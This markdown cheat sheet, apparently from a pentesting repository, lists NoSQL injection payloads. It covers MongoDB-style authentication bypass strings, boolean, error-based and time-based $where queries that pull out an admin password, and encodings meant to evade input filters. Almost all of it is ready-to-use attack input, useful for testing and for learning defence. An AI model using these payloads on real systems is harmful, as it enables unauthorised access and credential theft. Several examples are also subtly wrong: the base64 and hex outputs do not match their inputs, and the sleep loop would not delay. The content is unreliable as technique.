 # NoSQL Injections
- This Can Be Found In Every Query Made To The DataBase

# NoSQL Injection

### Auth Bypass

```bash
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

### Types

**Boolean Based :** 

```bash
{"$where": "this.username=='admin' && this.password.match(/^pa/)"}
```

**Error-based injection:**

```bash
{"$where": "db.collection.find({}).limit(1).forEach(function(x){return x.username}).toString().match(/./) && this.password.match(/^pa/)"}
```

**Time Based Injection :** 

```bash
{"$where": "function sleep(ms){return new Promise(resolve=>setTimeout(resolve,ms));} for(var i=0;i<50000;i++){sleep(10);} this.username=='admin' && this.password.match(/^pa/)"}
```

## Filter Bypass

**URL encoding :**

This technique encodes the payload by replacing special characters with their corresponding hexadecimal values.

```bash
{$where:{username:'admin',password:'password'}}
 #can be encoded as 
%7B%24where%3A%7Busername%3A%27admin%27%2Cpassword%3A%27password%27%7D%7D
```

**Base64 encoding:**

This technique encodes the payload by converting the payload to a base64 string

```bash
{$where:{username:'admin',password:'password'}}
eyJ3aGVyZSI6eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJwYXNzd29yZCJ9fQ==
```

**Double URL encoding:** 

This technique applies URL encoding twice to the payload, making it more difficult to detect.

```bash
{username:'admin',password:'password'}}
can be encoded as
 %257B%2524where%253A%257Busername%253A%2527admin%2527%252Cpassword%253A%2527password%2527%257D%257D
```

**Hex encoding:** 

This technique encodes the payload by converting the payload to its hexadecimal representation.

```bash
{username:'admin',password:'password'}}
# can be encoded as
7b2477686572653a7b757365726e616d653a2741646d696e272c70617373776f72643a2770617373776f7264277d7d
```

**Unicode encoding:** 

This technique encodes the payload by converting the payload to its Unicode representation.

```bash
{$where:{username:'admin',password:'password'}} 
can be encoded as 
\u007B\u0024\u0077\u0068\u0065\u0072\u0065\u003A\u007B\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065\u003A\u0027\u0061\u0064\u006D\u0069\u006E\u0027\u002C\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u003A\u0027\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0027\u007D\u007D
```
